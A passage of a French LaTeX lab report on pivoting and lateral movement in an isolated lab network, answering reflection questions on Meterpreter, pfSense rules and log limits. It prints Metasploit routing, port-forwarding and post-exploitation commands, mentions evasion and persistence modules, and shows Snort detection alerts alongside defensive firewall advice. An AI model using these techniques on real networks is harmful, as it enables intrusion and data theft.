	Cette commande dit à Metasploit: "Pour atteindre 192.168.20.0/24 (LAN), 
	route tout le trafic via la session 2 (Ubuntu DMZ)."
	
	\textbf{Résultat (Chapitre 6):}
	\begin{itemize}
		\item Parrot peut scanner Windows XP (192.168.20.50) via le pivot
		\item Parrot peut tenter d'exploiter Windows XP (MS08-067, MS17-010)
		\item Parrot peut créer un tunnel RDP exposant le LAN localement
	\end{itemize}
	
	\textbf{Architecture du Pivot:}
	
	\begin{center}
		\begin{tikzpicture}[
			node distance=3.5cm,
			box/.style={draw, rounded corners=4pt, minimum width=2.8cm, minimum height=1.4cm, 
				align=center, font=\small\ttfamily, thick},
			attacker/.style={box, fill=accent!10, draw=accent},
			pivot/.style={box, fill=secondary!10, draw=secondary},
			target/.style={box, fill=primary!10, draw=primary},
			zone/.style={font=\footnotesize\bfseries, align=center},
			arrow/.style={-{Stealth[length=6pt]}, thick, color=primary},
			label/.style={font=\footnotesize\ttfamily, align=center}
			]
			
			% Nodes
			\node[attacker] (att) {Attaquant\\(Parrot)\\[4pt]\texttt{192.168.100.150}};
			\node[pivot]    (dmz) [right=of att] {Machine\\Compromise\\(Ubuntu DMZ)\\[4pt]\texttt{192.168.10.100}};
			\node[target]   (lan) [right=of dmz] {Cible LAN\\(Windows XP)\\[4pt]\texttt{192.168.20.50}};
			
			% Arrows
			\draw[arrow] (att) -- node[above, font=\footnotesize\ttfamily] {Telnet/MSF} (dmz);
			\draw[arrow] (dmz) -- node[above, font=\footnotesize\ttfamily] {PIVOT} (lan);
			
			% Zone labels below
			\node[zone, text=accent]    at ([yshift=-1.2cm]att.south) {[WAN Zone]\\Accessible};
			\node[zone, text=secondary] at ([yshift=-1.2cm]dmz.south) {[DMZ Zone]\\Compromise};
			\node[zone, text=primary]   at ([yshift=-1.2cm]lan.south) {[LAN Zone]\\Normalement\\Isolé de WAN};
			
			% Dashed vertical separators
			\draw[dashed, gray, thick] ([xshift=1.75cm]att.east) ++(0,1.5cm) -- ++(0,-4.5cm);
			\draw[dashed, gray, thick] ([xshift=1.75cm]dmz.east) ++(0,1.5cm) -- ++(0,-4.5cm);
			
		\end{tikzpicture}
	\end{center}
	
	\subsubsection{Importance Stratégique}
	
	\begin{enumerate}
		\item \textbf{Contournement de la Segmentation:}
		\begin{itemize}
			\item La segmentation réseau est une défense clé en cybersécurité
			\item Le pivoting démontre que cette défense peut être contournée 
			si une zone compromise a accès à d'autres zones
			\item Valide l'importance du principe de "moindre privilège" réseau
		\end{itemize}
		
		\item \textbf{Extension de l'Impact:}
		\begin{itemize}
			\item Compromission DMZ seule = Impact limité (serveur web public)
			\item Compromission DMZ + Pivoting LAN = Impact critique (données clients, 
			credentials AD, serveurs métier)
			\item Multiplie le CVSS score de l'attaque
		\end{itemize}
		
		\item \textbf{Persistance et Discrétion:}
		\begin{itemize}
			\item Masque l'origine réelle de l'attaque (démontré au Chapitre 7 
			avec netstat Windows)
			\item Complique l'investigation forensique (nécessite corrélation 
			multi-sources)
			\item Permet une présence prolongée sans détection
		\end{itemize}
	\end{enumerate}
	
	\textbf{Conclusion Question 1:}
	
	Le pivoting et le mouvement latéral sont des techniques essentielles en 
	post-exploitation car elles permettent de transformer un accès initial 
	limité (DMZ) en compromission profonde de l'infrastructure (LAN). Sans 
	ces techniques, la segmentation réseau serait une barrière efficace. 
	Avec ces techniques, un attaquant peut progressivement atteindre les 
	ressources les plus critiques, même dans des architectures bien segmentées.
	
	% ------------------------------------------------------------------------------
	% QUESTION 2: AVANTAGES METERPRETER
	% ------------------------------------------------------------------------------
	
	\subsection{Question 2 : Avantages de Meterpreter}
	
	\subsubsection{Question}
	
	Quel est l'avantage d'utiliser une session Meterpreter par rapport à un 
	simple shell de commande pour le mouvement latéral et la post-exploitation ? 
	Listez au moins trois fonctionnalités clés de Meterpreter qui facilitent 
	ces opérations.
	
	\subsubsection{Réponse}
	
	\textbf{Contexte de notre TP3:}
	
	Dans le Chapitre 3, nous avons obtenu un accès initial via Telnet avec 
	un shell Bash classique. Au Chapitre 4, nous avons "upgradé" ce shell 
	vers une session Meterpreter. Cette migration n'était pas arbitraire : 
	Meterpreter offre des capacités bien supérieures.
	
	\subsubsection{Comparaison Shell Basique vs Meterpreter}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.5}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{4cm} p{5cm} p{4.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Critère}} &
			\textcolor{tableheadfg}{\textbf{Shell Basique (Bash)}} &
			\textcolor{tableheadfg}{\textbf{Meterpreter}} \\
			\hline
			\rowcolor{tablerowalt}
			Chiffrement & 
			❌ Aucun (Telnet en clair) & 
			✅ TLS natif \\
			
			Transfert fichiers & 
			Nécessite outils externes (wget, scp) & 
			Commandes intégrées (upload/download) \\
			
			\rowcolor{tablerowalt}
			Pivoting & 
			❌ Impossible & 
			✅ Route add natif \\
			
			Stabilité & 
			Dépend de la connexion TCP unique & 
			Gestion sessions multiples \\
			
			\rowcolor{tablerowalt}
			Post-exploitation & 
			Commandes shell manuelles & 
			Modules automatisés (enum\_system, hashdump) \\
			
			Détection & 
			Processus visible (bash) & 
			Résident en mémoire (stealthy) \\
			
			\rowcolor{tablerowalt}
			Migration processus & 
			❌ Non supporté & 
			✅ Migrate vers processus légitime \\
			\hline
		\end{tabular}
		\caption{Comparaison Shell Basique vs Meterpreter}
	\end{table}
	
	\subsubsection{Trois Fonctionnalités Clés de Meterpreter}
	
	\textbf{1. Routage Réseau Intégré (Pivoting Natif)}
	
	\textbf{Démonstration dans notre TP3 (Chapitre 5):}
	
	\begin{lstlisting}[caption=Configuration Route via Meterpreter]
		(Meterpreter 2)(/tmp) > background
		[msf](Jobs:0 Agents:1) >> route add 192.168.20.0/24 2
		[*] Route added
	\end{lstlisting}
	
	\textbf{Capacités:}
	\begin{itemize}
		\item Création de routes statiques via la session compromise
		\item Encapsulation automatique du trafic dans le tunnel Meterpreter
		\item Supporte TCP/UDP via le pivot
		\item Permet l'exécution de modules Metasploit (scanners, exploits) 
		à travers le pivot
	\end{itemize}
	
	\textbf{Sans Meterpreter:}
	\begin{itemize}
		\item Nécessiterait configuration manuelle de tunnels SSH (complexe)
		\item Pas d'intégration avec Metasploit Framework
		\item Configuration non-persistente (perdue à la déconnexion)
	\end{itemize}
	
	\textbf{Utilisation Concrète:}
	\begin{itemize}
		\item Scan de Windows XP (192.168.20.50) via le pivot (Chapitre 6)
		\item Tentatives d'exploitation MS08-067 / MS17-010 routées automatiquement
		\item Modules SMB (smb\_version, smb\_enumshares) fonctionnent transparently
	\end{itemize}
	
	\textbf{2. Modules de Post-Exploitation Automatisés}
	
	\textbf{Démonstration dans notre TP3 (Chapitre 7):}
	
	\begin{lstlisting}[caption=Modules Post-Exploitation Utilisés]
		# Énumération système complète
		use post/linux/gather/enum_system
		set SESSION 2
		run
		[+] Collected: 273B user accounts, 103KB packages, 508B services
		
		# Énumération réseau
		use post/linux/gather/enum_network
		set SESSION 2
		run
		[+] Collected: DNS config, SSH config, active connections
		
		# Détection virtualisation
		use post/linux/gather/checkvm
		set SESSION 2
		run
		[+] Detected: VMware virtual machine
	\end{lstlisting}
	
	\textbf{Avantages:}
	\begin{itemize}
		\item \textbf{Automatisation:} Un seul module remplace 20+ commandes shell manuelles
		\item \textbf{Extraction Structurée:} Données sauvegardées dans \texttt{~/.msf4/loot/} 
		avec format standardisé
		\item \textbf{Évite Erreurs:} Pas de typos, pas de commandes oubliées
		\item \textbf{Discrétion:} Modules optimisés pour minimiser le bruit 
		(pas de commandes répétitives suspectes)
	\end{itemize}
	
	\textbf{Modules Disponibles (Exemples):}
	\begin{itemize}
		\item \texttt{hashdump} : Extraction hashes de mots de passe (SAM/shadow)
		\item \texttt{enum\_configs} : Collecte fichiers de configuration
		\item \texttt{checkvm} : Détection virtualisation (VMware, VirtualBox, Hyper-V)
		\item \texttt{migrate} : Migration vers processus légitime (explorer.exe, svchost)
		\item \texttt{persistence} : Installation backdoors automatiques
	\end{itemize}
	
	\textbf{Résultats TP3:}
	\begin{itemize}
		\item 121 KB de données exfiltrées en 15 fichiers (Chapitre 7, Tableau 7.1)
		\item 43 comptes utilisateurs identifiés
		\item Configuration SSH exposée (révélant X11Forwarding activé)
		\item Services actifs listés (incluant fail2ban non configuré pour Telnet)
	\end{itemize}
	
	\textbf{3. Port Forwarding et Tunneling Avancé}
	
	\textbf{Démonstration dans notre TP3 (Chapitre 6):}
	
	\begin{lstlisting}[caption=Configuration Tunnel RDP]
		(Meterpreter 2)(/tmp) > portfwd add -l 3389 -p 3389 -r 192.168.20.50
		[*] Forward TCP relay created: (local) :3389 -> (remote) 192.168.20.50:3389
		
		(Meterpreter 2)(/tmp) > portfwd list
		
		Active Port Forwards
		====================
		
		Index  Local         Remote              Direction
		-----  -----         ------              ---------
		1      0.0.0.0:3389  192.168.20.50:3389  Forward
	\end{lstlisting}
	
	\textbf{Capacités:}
	\begin{itemize}
		\item \textbf{Local Port Forwarding:} Expose un service distant (Windows RDP) 
		sur un port local de l'attaquant
		\item \textbf{Reverse Port Forwarding:} Expose un service local de l'attaquant 
		sur la machine compromise
		\item \textbf{Dynamic Port Forwarding:} Crée un proxy SOCKS pour router 
		tout le trafic applicatif
	\end{itemize}
	
	\textbf{Architecture du Tunnel RDP:}
	
	\begin{center}
		\begin{tikzpicture}[
			node distance=3.5cm,
			box/.style={draw, rounded corners=4pt, minimum width=2.8cm, minimum height=1.4cm,
				align=center, font=\small\ttfamily, thick},
			attacker/.style={box, fill=accent!10, draw=accent},
			pivot/.style={box, fill=secondary!10, draw=secondary},
			target/.style={box, fill=primary!10, draw=primary},
			zone/.style={font=\footnotesize\bfseries, align=center},
			arrow/.style={{Stealth[length=6pt]}-{Stealth[length=6pt]}, thick},
			label/.style={font=\footnotesize\ttfamily, align=center}
			]
			
			% Nodes
			\node[attacker] (att) {Client RDP\\(xfreerdp)\\[4pt]\texttt{localhost:3389}};
			\node[pivot]    (dmz) [right=of att] {Pivot Ubuntu\\(Meterpreter)\\[4pt]\texttt{192.168.10.100}};
			\node[target]   (lan) [right=of dmz] {Service RDP\\(Windows XP)\\[4pt]\texttt{192.168.20.50:3389}};
			
			% Arrows
			\draw[arrow, color=accent]   (att) -- node[above, font=\footnotesize\bfseries] {TLS}
			node[below, font=\footnotesize\ttfamily] {chiffré} (dmz);
			\draw[arrow, color=primary]  (dmz) -- node[above, font=\footnotesize\bfseries] {LAN}
			node[below, font=\footnotesize\ttfamily] {tunnel} (lan);
			
			% Zone labels below
			\node[zone, text=accent]    at ([yshift=-1.2cm]att.south) {Attaquant\\Port Forward};
			\node[zone, text=secondary] at ([yshift=-1.2cm]dmz.south) {[DMZ Zone]\\Relais Tunnel};
			\node[zone, text=primary]   at ([yshift=-1.2cm]lan.south) {[LAN Zone]\\RDP Cible};
			
			% Dashed vertical separators
			\draw[dashed, gray, thick] ([xshift=1.75cm]att.east) ++(0,1.5cm) -- ++(0,-4cm);
			\draw[dashed, gray, thick] ([xshift=1.75cm]dmz.east) ++(0,1.5cm) -- ++(0,-4cm);
			
		\end{tikzpicture}
	\end{center}
	
	\textbf{Avantages:}
	\begin{itemize}
		\item \textbf{Contournement Pare-feu:} Services LAN inaccessibles depuis 
		WAN deviennent accessibles localement
		\item \textbf{Chiffrement:} Trafic encapsulé dans TLS Meterpreter (invisible 
		pour pfSense)
		\item \textbf{Facilité d'Usage:} Utilisation d'outils GUI natifs (rdesktop, 
		xfreerdp) sur services internes
		\item \textbf{Multi-Services:} Plusieurs forwards simultanés (RDP 3389, 
		SMB 445, SQL 1433, etc.)
	\end{itemize}
	
	\textbf{Cas d'Usage Pratiques:}
	\begin{itemize}
		\item Accéder à une interface web d'admin interne (forward port 80/443)
		\item Se connecter en RDP à un serveur Windows du LAN
		\item Exfiltrer base de données via tunnel MySQL (port 3306)
		\item Utiliser Responder/Impacket via SOCKS proxy
	\end{itemize}
	
	\subsubsection{Fonctionnalités Additionnelles (Bonus)}
	
	\textbf{4. Communication Chiffrée Native (TLS)}
	
	\begin{itemize}
		\item Tout le trafic Meterpreter est chiffré par défaut
		\item Empêche l'inspection par pare-feu/IDS (sauf DPI avancée)
		\item Démontré au Chapitre 6 : pfSense ne voit que du TLS opaque
	\end{itemize}
	
	\textbf{5. Exécution en Mémoire (Fileless)}
	
	\begin{itemize}
		\item Meterpreter réside en RAM, pas sur disque
		\item Évite détection par antivirus basés sur signatures fichiers
		\item Pas d'artefacts persistants (sauf logs réseau)
	\end{itemize}
	
	\textbf{6. Gestion Multi-Sessions}
	
	\begin{itemize}
		\item Plusieurs sessions Meterpreter simultanées (sessions 2 et 3 dans notre TP)
		\item Persistence : si une session meurt, les autres restent actives
		\item Isolation : chaque session peut avoir des routes/forwards différents
	\end{itemize}
	
	\textbf{Conclusion Question 2:}
	
	Meterpreter transforme un accès basique (shell Bash) en plateforme 
	complète de post-exploitation. Ses capacités de pivoting natif, ses 
	modules automatisés et son système de tunneling en font l'outil de 
	référence pour le mouvement latéral. Dans notre TP3, ces fonctionnalités 
	ont permis de progresser d'un accès DMZ limité vers une reconnaissance 
	complète du LAN et la création de tunnels vers des services internes.
	
	% ------------------------------------------------------------------------------
	% QUESTION 3: RÈGLE PFSENSE PERMISSIVE
	% ------------------------------------------------------------------------------
	
	\subsection{Question 3 : Impact de la Règle pfSense Permissive}
	
	\subsubsection{Question}
	
	Comment la configuration d'une règle de pare-feu permissive de la DMZ 
	vers le LAN a-t-elle facilité le pivoting dans cet atelier ? Quelle est 
	la bonne pratique de sécurité pour éviter de telles brèches ?
	
	\subsubsection{Réponse}
	
	\textbf{Référence au TP3:}
	
	Au Chapitre 5, section "Configuration de la Règle pfSense Permissive", 
	nous avons configuré une règle autorisant le trafic DMZ → INTERNAL\_LAN. 
	Cette configuration était \textbf{délibérément incorrecte} pour les 
	besoins pédagogiques du TP.
	
	\subsubsection{Configuration de la Règle Permissive}
	
	\textbf{Paramètres de la règle pfSense (Chapitre 5):}
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.3}
		\begin{tabular}{>{\bfseries}p{4cm} p{8cm}}
			\hline
			\textbf{Paramètre} & \textbf{Valeur Configurée} \\
			\hline
			Action & Pass (Autorise le trafic) \\
			Interface & DMZ \\
			Protocol & \textbf{Any} (Tous protocoles TCP/UDP/ICMP) \\
			Source & DMZ net (192.168.10.0/24) \\
			Destination & INTERNAL\_LAN net (192.168.20.0/24) \\
			Description & "TP3 Pivoting Lab - DMZ to LAN Access" \\
			\hline
		\end{tabular}
		\caption{Règle pfSense Permissive (Erreur de Configuration)}
	\end{table}
	
	\subsubsection{Comment cette Règle a Facilité le Pivoting}
	
	\textbf{1. Avant la Règle Permissive (Configuration Sécurisée):}
	
	\begin{itemize}
		\item Test ping DMZ → LAN : \textbf{100\% packet loss} (bloqué par pfSense)
		\item Politique par défaut pfSense : \textbf{Default Deny}
		\item DMZ isolée du LAN (principe de segmentation respecté)
		\item Ubuntu DMZ compromise = impact limité à la DMZ
	\end{itemize}
	
	\textbf{Résultat:} Le pivoting était \textbf{impossible} techniquement. 
	Même avec route Metasploit configurée, les paquets auraient été bloqués 
	par pfSense.
	
	\textbf{2. Après la Règle Permissive (Configuration Vulnérable):}
	
	\begin{itemize}
		\item Test ping DMZ → LAN : \textbf{0\% packet loss} (autorisé)
		\item Tous protocoles autorisés (TCP, UDP, ICMP, tous ports)
		\item Ubuntu DMZ peut initier connexions vers n'importe quelle 
		machine du LAN
		\item Ubuntu compromise = pont vers le LAN
	\end{itemize}
	
	\textbf{Résultat:} Le pivoting devient \textbf{trivial}. Une fois la 
	route Metasploit configurée:
	
	\begin{lstlisting}
		route add 192.168.20.0/24 2
	\end{lstlisting}
	
	Le trafic Parrot → (via Ubuntu) → Windows XP transite librement car 
	pfSense voit des connexions Ubuntu → Windows, qui sont autorisées.
	
	\textbf{3. Conséquences Concrètes dans notre TP3:}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.3}
		\begin{tabular}{p{6cm} p{7cm}}
			\hline
			\textbf{Action Attaquant} & \textbf{Résultat} \\
			\hline
			Scan ports Windows XP (Ch6) & 
			✅ Réussi (port 445 détecté) \\
			
			Détection version SMB (Ch6) & 
			✅ Réussi (Windows XP SP3 identifié) \\
			
			Énumération partages SMB (Ch6) & 
			✅ Réussi (ADMIN\$, C\$, IPC\$ listés) \\
			
			Tentative exploit MS08-067 (Ch6) & 
			✅ Trafic autorisé (échec dû à patches, pas au pare-feu) \\
			
			Tentative exploit MS17-010 (Ch6) & 
			✅ Trafic autorisé (échec car XP non vulnérable) \\
			
			Port forwarding RDP 3389 (Ch6) & 
			✅ Tunnel établi avec succès \\
			\hline
		\end{tabular}
		\caption{Actions Facilitées par la Règle Permissive}
	\end{table}
	
	\textbf{Sans cette règle:} Toutes ces actions auraient été bloquées, 
	affichant "filtered" dans Nmap ou timeout dans Metasploit.
	
	\subsubsection{Bonnes Pratiques de Sécurité}
	
	\textbf{Principe Fondamental: Moindre Privilège Réseau}
	
	La DMZ (DeMilitarized Zone) est conçue pour être un \textbf{tampon} 
	entre Internet (WAN) et le réseau interne (LAN). Sa compromission doit 
	être contenue.
	
	\textbf{1. Règles de Pare-feu Correctes (Zero Trust):}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.3}
		\begin{tabular}{p{3cm} p{3cm} p{3cm} p{3.5cm}}
			\hline
			\textbf{Flux} & \textbf{Action} & \textbf{Protocole} & \textbf{Justification} \\
			\hline
			WAN → DMZ & Allow & HTTP, HTTPS & Accès services publics \\
			
			LAN → DMZ & Allow & HTTP, HTTPS, SSH & Administration et consommation services \\
			
			\textbf{DMZ → LAN} & \textbf{Deny} & \textbf{ALL} & 
			\textbf{Isoler zone compromise} \\
			
			DMZ → WAN & Allow & DNS, HTTP(S), NTP & Mises à jour, résolution DNS \\
			\hline
		\end{tabular}
		\caption{Matrice de Flux Réseau Sécurisée}
	\end{table}
	
	\textbf{Règle pfSense Correcte:}
	
	\begin{lstlisting}
		Interface: DMZ
		Action: Block
		Protocol: Any
		Source: DMZ net
		Destination: INTERNAL_LAN net
		Description: "Bloquer tout trafic DMZ vers LAN (segmentation)"
	\end{lstlisting}
	
	\textbf{2. Exceptions Justifiées et Restrictives:}
	
	Si un flux DMZ → LAN est absolument nécessaire (rare), il doit être:
	
	\begin{itemize}
		\item \textbf{Spécifique:} Un seul port, un seul protocole (pas "Any")
		\item \textbf{Ciblé:} IP source précise → IP destination précise (pas de subnets)
		\item \textbf{Justifié:} Documenté avec cas d'usage métier
		\item \textbf{Temporaire:} Révision trimestrielle, suppression si non utilisé
	\end{itemize}
	
	\textbf{Exemple Acceptable:}
	
	\begin{lstlisting}
		# Serveur web DMZ doit interroger base de données interne
		Interface: DMZ
		Action: Pass
		Protocol: TCP
		Source: 192.168.10.100 (Web server uniquement)
		Destination: 192.168.20.10:3306 (DB server, port MySQL uniquement)
		Description: "Web DMZ -> DB LAN (MySQL read-only, rev. Q2 2026)"
	\end{lstlisting}
	
	\textbf{3. Micro-Segmentation (Défense en Profondeur):}
	
	Au-delà du pare-feu pfSense, implémenter:
	
	\begin{itemize}
		\item \textbf{Pare-feu Hôte (UFW, Windows Firewall):}
		\begin{itemize}
			\item Même si pfSense autorise, l'hôte LAN bloque DMZ
			\item Défense en cas d'erreur de configuration pfSense
		\end{itemize}
		
		\item \textbf{VLANs Multiples:}
		\begin{itemize}
			\item DMZ subdivisée (DMZ-Web, DMZ-Mail, DMZ-DNS)
			\item Compromission DMZ-Web n'affecte pas DMZ-Mail
		\end{itemize}
		
		\item \textbf{Network Access Control (NAC):}
		\begin{itemize}
			\item Authentification 802.1X
			\item Vérification posture de sécurité avant accès réseau
		\end{itemize}
	\end{itemize}
	
	\textbf{4. Détection et Monitoring:}
	
	\begin{itemize}
		\item \textbf{IDS/IPS (Snort):} Détecter tentatives de pivoting même si règle existe
		\item \textbf{SIEM:} Alertes sur trafic DMZ → LAN anormal (volume, timing)
		\item \textbf{NetFlow Analysis:} Surveillance patterns de communication
		\item \textbf{Audits Réguliers:} Revue trimestrielle des règles pare-feu
	\end{itemize}
	
	\textbf{Conclusion Question 3:}
	
	La règle permissive DMZ → LAN a transformé une compromission DMZ isolée 
	en porte d'entrée vers le LAN. Cette configuration viole le principe de 
	segmentation et démontre comment une seule erreur de pare-feu peut 
	annuler des couches entières de défense. 
	
	La bonne pratique est de \textbf{bloquer par défaut} tout trafic DMZ → LAN 
	et de n'autoriser que des flux spécifiques, justifiés, documentés et 
	régulièrement audités. La défense en profondeur (pare-feu hôte, IDS, 
	SIEM) compense les erreurs de configuration.
	
	% ------------------------------------------------------------------------------
	% QUESTION 4: LIMITATIONS LOGS PARE-FEU
	% ------------------------------------------------------------------------------
	
	\subsection{Question 4 : Limitations des Logs Pare-feu}
	
	\subsubsection{Question}
	
	Pourquoi les logs du pare-feu pfSense ne révèlent-ils pas directement 
	l'attaque depuis la machine attaquante vers le LAN lors du pivoting ? 
	Quel type d'outil serait nécessaire pour détecter une telle activité 
	et pourquoi ?
	
	\subsubsection{Réponse}
	
	\textbf{Référence au TP3:}
	
	Cette question a été abordée en détail au Chapitre 6, section "Analyse 
	des Limitations du Pare-feu". Nous synthétisons ici les points clés 
	avec exemples concrets de notre expérimentation.
	
	\subsubsection{Ce que pfSense Voit dans ses Logs}
	
	\textbf{Consultation effectuée (Chapitre 6):}
	
	Durant l'attaque (15:08 - 15:40), les logs pfSense ont enregistré:
	
	\begin{lstlisting}[style=logstyle]
		Mar 4 15:08:30 WAN  TCP:S   192.168.100.150:54321  192.168.100.6:23     PASS
		Mar 4 15:09:00 WAN  TCP:PA  192.168.100.150:54321  192.168.100.6:23     PASS
		Mar 4 15:09:15 WAN  TCP:PA  192.168.100.150:4445   192.168.100.6:39218  PASS
		Mar 4 15:20:10 DMZ  TCP:S   192.168.10.100:45678   192.168.20.50:445    PASS
		Mar 4 15:30:15 DMZ  TCP:PA  192.168.10.100:45678   192.168.20.50:445    PASS
	\end{lstlisting}
	
	\textbf{Interprétation pfSense:}
	\begin{enumerate}
		\item Flux 1: Parrot → pfSense WAN:23 (Telnet) = Autorisé (NAT TP2)
		\item Flux 2: Parrot ↔ pfSense:4445/39218 = Trafic chiffré autorisé
		\item Flux 3: Ubuntu DMZ → Windows LAN:445 = Autorisé (règle Ch5)
	\end{enumerate}
	
	\textbf{Pour pfSense:} Ce sont trois flux indépendants, tous conformes 
	aux règles configurées. Aucune alerte, aucune anomalie détectée.
	
	\subsubsection{Ce que pfSense NE Voit PAS}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.4}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{5.5cm} p{7.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Élément Caché}} &
			\textcolor{tableheadfg}{\textbf{Raison}} \\
			\hline
			\rowcolor{tablerowalt}
			Compromission Telnet & 
			Credentials (telnetuser:test123) transmis en clair mais pfSense 
			n'inspecte pas le contenu applicatif \\
			
			Payload Meterpreter (250B) & 
			Téléchargé via HTTP:8000, vu comme trafic web normal \\
			
			\rowcolor{tablerowalt}
			Commandes C2 (shell, sysinfo, route) & 
			Encapsulées dans tunnel TLS Meterpreter, chiffrement opaque \\
			
			\textbf{Lien causal Parrot → Ubuntu → Windows} & 
			\textbf{pfSense ne corrèle pas temporellement les 3 flux} \\
			
			\rowcolor{tablerowalt}
			Scans Nmap via pivot & 
			Vus comme trafic SMB légitime (DMZ → LAN autorisé) \\
			
			Payloads exploits (MS08-067, MS17-010) & 
			Encapsulés dans trafic SMB, pas de signature matching \\
			
			\rowcolor{tablerowalt}
			Exfiltration données (121 KB) & 
			Transitent dans tunnel Meterpreter, indistinguables du C2 normal \\
			
			Origin masking (netstat Windows) & 
			Windows voit 192.168.10.100, pas 192.168.100.150 \\
			\hline
		\end{tabular}
		\caption{Éléments Invisibles pour pfSense (Référence Chapitre 6)}
	\end{table}
	
	\subsubsection{Pourquoi pfSense est Structurellement Aveugle}
	
	\textbf{1. Inspection Limitée aux Couches OSI 3-4:}
	
	\begin{itemize}
		\item \textbf{Couche 3 (Réseau):} Adresses IP src/dst ✅
		\item \textbf{Couche 4 (Transport):} Ports, protocoles, états TCP ✅
		\item \textbf{Couche 7 (Application):} Contenu payloads, commandes ❌
	\end{itemize}
	
	pfSense est un \textbf{pare-feu stateful} (stateful firewall), pas un 
	\textbf{pare-feu applicatif} (application-layer firewall).
	
	\textbf{2. Trafic Chiffré (TLS/SSL):}
	
	\begin{itemize}
		\item Meterpreter utilise TLS pour chiffrer toutes les communications
		\item pfSense voit: \texttt{ClientHello}, \texttt{ServerHello}, 
		puis flux chiffré opaque
		\item Impossible de déchiffrer sans:
		\begin{itemize}
			\item Clé privée du serveur (pas disponible)
			\item Interception SSL/TLS (MITM proxy, non configuré)
			\item Exploitation de failles TLS (Heartbleed, obsolète)
		\end{itemize}
	\end{itemize}
	
	\textbf{3. Absence de Corrélation Temporelle:}
	
	pfSense évalue chaque paquet indépendamment selon les règles. Il ne fait 
	PAS de corrélation du type:
	
	\begin{quote}
		"Telnet réussi (15:08) + 2 minutes plus tard (15:10) + DMZ initie connexions 
		inhabituelles vers LAN (15:20) + Volume trafic anormal = \textbf{Attaque pivot probable}"
	\end{quote}
	
	Cette logique nécessite un \textbf{SIEM} (Security Information and Event 
	Management), pas un simple pare-feu.
	
	\subsubsection{Technologies Nécessaires pour la Détection}
	
	\textbf{Architecture de Défense Multicouche:}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.5}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{3cm} p{5cm} p{5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Technologie}} &
			\textcolor{tableheadfg}{\textbf{Capacité Clé}} &
			\textcolor{tableheadfg}{\textbf{Détection TP3}} \\
			\hline
			\rowcolor{tablerowalt}
			\textbf{IDS/IPS} Snort & 
			Inspection profonde paquets (DPI), signatures & 
			Meterpreter stager, Nmap User-Agent, MS08-067 \\
			
			\textbf{SIEM} ELK/Splunk & 
			Corrélation multi-sources temporelle & 
			"Telnet + DMZ→LAN" = Alerte pivot \\
			
			\rowcolor{tablerowalt}
			\textbf{EDR} CrowdStrike & 
			Surveillance endpoints (processus, mémoire) & 
			Processus meterpreter en RAM (PID 4907/4908) \\
			
			\textbf{NBA} Darktrace & 
			Machine Learning comportemental & 
			Déviation statistique trafic DMZ→LAN \\
			
			\rowcolor{tablerowalt}
			\textbf{SSL/TLS Interception} & 
			Déchiffrement MITM légitime & 
			Contenu sessions Meterpreter en clair \\
			\hline
		\end{tabular}
		\caption{Technologies Complémentaires Requises}
	\end{table}
	
	\textbf{Exemple Concret: Détection avec Snort IDS}
	
	Si Snort avait été actif avec règles Emerging Threats:
	
	\begin{lstlisting}[style=logstyle,caption=Alertes Snort (Simulation Basée sur Signatures Réelles)]
		[**] [1:2009187:5] ET EXPLOIT Metasploit Meterpreter reverse_tcp
		[Priority: 1] [Classification: Network Trojan]
		03/04-15:09:10 192.168.100.150:4445 -> 192.168.10.100:54321
		Pattern detected: Meterpreter stager initialization sequence
		
		[**] [1:2100498:7] GPL ATTACK_RESPONSE id check returned root
		[Priority: 2] [Classification: Bad Traffic]
		03/04-15:09:15 192.168.10.100:54321 -> 192.168.100.150:4445
		Content: "uid=0(root)" → Root access confirmed
		
		[**] [1:2018959:2] ET SCAN Nmap Scripting Engine User-Agent
		[Priority: 2] [Classification: Information Leak]
		03/04-15:30:20 192.168.10.100:45678 -> 192.168.20.50:445
		Content: "Nmap Scripting Engine" → Active reconnaissance detected
	\end{lstlisting}
	
	\textbf{Actions Automatiques IPS:}
	\begin{itemize}
		\item Blocage IP 192.168.100.150 (blacklist pfSense)
		\item Reset connexions TCP suspectes (kill Meterpreter)
		\item Alerte SOC temps réel avec PCAP contexte
		\item Isolation DMZ (activation règle block all)
	\end{itemize}
	
	\textbf{Conclusion Question 4:}
	
	Les logs pfSense ne révèlent pas le pivoting car le pare-feu opère aux 
	couches 3-4 (IP/TCP) et voit des flux chiffrés conformes aux règles. 
	Il ne peut pas:
	\begin{itemize}
		\item Inspecter le contenu applicatif (couche 7)
		\item Déchiffrer TLS Meterpreter
		\item Corréler temporellement des événements indépendants
	\end{itemize}
	
	La détection efficace nécessite une architecture multicouche:
	\begin{itemize}
		\item \textbf{IDS/IPS} pour inspection profonde et signatures
		\item \textbf{SIEM} pour corrélation et vision holistique
		\item \textbf{EDR} pour visibilité processus/mémoire endpoints
		\item \textbf{NBA/ML} pour détection d'anomalies comportementales
	\end{itemize}
	
	Cette limitation valide le principe de \textbf{défense en profondeur}: 
	un pare-feu seul, même correctement configuré, est insuffisant face aux 
	techniques modernes de pivoting et de mouvement latéral.
	
	% ==============================================================================
	% FIN SECTION QUESTIONS DE RÉFLEXION
	% ==============================================================================
	
	
	
	
	% ------------------------------------------------------------------------------
	% CHAPITRE 9 : CONCLUSION
	% ------------------------------------------------------------------------------
	\chapter{Conclusion}
	
	\section{Synthèse des Objectifs Atteints}
	
	Ce travail pratique a permis de démontrer de manière concrète les techniques avancées de \textbf{pivoting réseau} et de \textbf{mouvement latéral} dans une infrastructure segmentée. Nous avons réussi à :
	
	\begin{itemize}
		\item ✅ Compromettre un serveur DMZ exposé via un service vulnérable (Telnet).
		\item ✅ Établir un canal de commande et contrôle (C2) persistant avec Meterpreter.
